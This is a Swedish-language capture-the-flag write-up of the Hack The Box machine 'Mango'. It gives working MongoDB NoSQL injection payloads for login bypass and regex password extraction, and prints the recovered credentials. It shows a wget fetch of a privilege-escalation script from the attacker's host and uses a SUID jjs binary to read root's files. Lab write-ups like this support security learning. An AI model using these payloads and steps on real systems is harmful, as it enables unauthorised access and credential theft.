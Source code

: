 ```yaml
---
title: "HackThebox: Mango Writeup"
date: 2020-06-4 23:07:44 +0000
categories:
  - blog
tags:
  - CTF
  - HTB
  - Swedish
---
```


Jag ligger ett par veckor efter i planeringen, och skulle egentligen publicerat den här wirteupen för länge sedan, men det går inte alltid som man vill! Jag hoppas kunna fylla på här med mer innehåll snarast möjligt. 

Det här inlägget är en writeup på HTB-maskinen Mango, utöver vanlig recon-aktivitet så innefattar den NoSQL-injektioner i MongoDB, lite lösenordsknäckning via Python & SUID-exploatering för privilege escalation, happy reading! 

# Recon
**nmap -sC -sV -oA nmap/initial 10.10.10.162**

~~~
Nmap scan report for 10.10.10.162
Host is up (0.081s latency).
Not shown: 940 closed ports, 57 filtered ports
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a8:8f:d9:6f:a6:e4:ee:56:e3:ef:54:54:6d:56:0c:f5 (RSA)
|   256 6a:1c:ba:89:1e:b0:57:2f:fe:63:e1:61:72:89:b4:cf (ECDSA)
|_  256 90:70:fb:6f:38:ae:dc:3b:0b:31:68:64:b0:4e:7d:c9 (ED25519)
80/tcp  open  http     Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: 403 Forbidden
443/tcp open  ssl/http Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Mango | Search Base
| ssl-cert: Subject: commonName=staging-order.mango.htb/organizationName=Mango Prv Ltd./stateOrProvinceName=None/countryName=IN
| Issuer: commonName=staging-order.mango.htb/organizationName=Mango Prv Ltd./stateOrProvinceName=None/countryName=IN
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2019-09-27T14:21:19
| Not valid after:  2020-09-26T14:21:19
| MD5:   b797 d14d 485f eac3 5cc6 2fed bb7a 2ce6
|_SHA-1: b329 9eca 2892 af1b 5895 053b f30e 861f 1c03 db95
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
~~~

Inte så mycket som sticker ut efter att ha kört nmap, däremot uppmärksammade jag ett SSL-cerifikat som exponerade någon form av staging-domän och bestämde mig för att titta på den. 

*SSL Certifikatet*

ssl-cert: Subject:
commonName=**staging-order.mango.htb**organizationName=Mango Prv Ltd./stateOrProvinceName=None/countryName=IN
....

Så jag drar igång gobuster mot staging domänen för att se om där finns något spännande, jag letar efter php-filer med växeln -x eftersom index-filen är av typen php.

**gobuster dir -u https://staging-order.mango.htb -k -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 10 -x php**
~~~


===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            https://staging-order.mango.htb
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php
[+] Timeout:        10s
===============================================================
2020/02/18 17:21:45 Starting gobuster
===============================================================
/index.php (Status: 200)
/analytics.php (Status: 200)
Progress: 17365 / 220561 (7.87%)
~~~

Detta visar att det finns en analytics-applikation jag kan komma åt, det här visade sig vara ett s.k. "Rabbit hole" och ledde ingenstans, därför kommer jag inte skriva mer om det.

På staging-domänen finns annars bara en inloggningssida, och som vanligt när det gäller HTB-maskiner brukar namnet i sig vara en ledtråd & så även denna gång mango = mongoDB? 

![Staging-domän](https://jackhack.se/assets/images/staging.png)

Eftersom MongoDB är en NoSQL-databas bestämde jag mig för att testa NoSQL-injektioner, efter att ha kollat upp NoSQL-injektioner hos [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection) startade jag upp Burp suite..

# NoSQL Injection (MongoDB)
Några variabler att hålla koll på vid testning: 

* \$eq     "equal to"
* \$gt     "greater than"
* \$gte    "greater than or equal to"
* \$ne     "not equal to"

Väl i Burp interceptade jag inloggnings-requesten & kollade vilken respons jag fick när jag testade logga in med användarnamnet *admin* & lösenordet *test*, responskoden var 200 OK

![Burp](https://jackhack.se/assets/images/burp_1.png)

Samma request med användarnamnet admin & lösenordet *\[$ne]test* (alltså **INTE** *test*) fick jag istället responskoden 302 Found


![Burp 302](https://jackhack.se/assets/images/burp_2.png)

Testet indikerar på att det finns en användare vid namn admin, som inte har lösenordet *test* och kan logga in på sidan. 

Nu skulle det vara möjligt att tecken för tecken lista ut användarnamn & lösenord genom att använda sig av reguljära uttryck, t.ex.:

**Först ta reda på längden på lösenordet**
* username=admin&password[$regex]=^.{1}&login=login
Responskod 200 (lösenordet är alltså INTE ett tecken)
* username=admin&password[$regex]=^.{2}&login=login
Responskod 200, lösenordet är alltså INTE två tecken
* ...
* username=admin&password[$regex]=^.{12}&login=login
Responskod 302 Found, lösenordet är alltså 12 tecken!

Sedan kan samma regexp-metod användas för att testa alla bokstäver,siffror och specialtecken för att tecken för tecken lista ut lösenordet.

Detta är såklart ingenting man vill göra för hand, tur att det finns script för detta, jag använde följande script från [GitHub](https://github.com/an0nlk/Nosql-MongoDB-injection-username-password-enumeration/blob/master/nosqli-user-pass-enum.py)

Efter att ha kört scriptet mot staging-sidan fick jag fram följande inloggningsuppgifter:

*mango:h3mXK8RhU~f{]f5H*
*admin:t9KcS3>!0B#2*

# User
Eftersom jag kunde se att port 22 var öppen vid Nmap-scanningen testade jag att logga in via SSH, användaren admin fungerade inte men mango-kontot gav access.

Väl inne i maskinen fanns där ingen user-flagga i mango's hemkatalog, så jag bytte till admin-kontot.


~~~
ssh mango@mango.htb

su admin
cd
cat user.txt
~~~
{: .language-bash}
# Root

När jag har fått en limiterad shell brukar jag köra något av privilege escalation scripten LinEnum eller linuxprivchecker, jag förde över linuxprivchecker genom att sätta upp en python-webserver snabbt.

~~~
--- I Kali ---
cd /opt/scripts/
python -m SimpleHTTPServer 80
--- På remote-maskin ---
wget http://10.10.15.23/linuxprivchecker.py
python linuxprivchecker.py
~~~
{: .language-bash}
Scriptet visade en binärfil vid namn "jjs" som har "SUID"-flagga satt och därför kan köras med administratörsrättigheter, jag kollade upp binären i repot [gtfobins](https://gtfobins.github.io/gtfobins/jjs/) för att se vad jag kunde åstadkomma med den. 

Jag fick inte till det med mina försök att använda jjs för att upprätta en reverse-shell mellan min kali-host och maskinen. Däremot kunde jag köra följande kod för att läsa root-flaggan.

~~~
echo 'var BufferedReader = Java.type("java.io.BufferedReader");
var FileReader = Java.type("java.io.FileReader");
var br = new BufferedReader(new FileReader("/root/root.txt"));
while ((line = br.readLine()) != null) { print(line); }' | /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs

root.txt:8a8ef79a7a2fbb01ea81688424e9ab15
~~~
{: .language-bash}


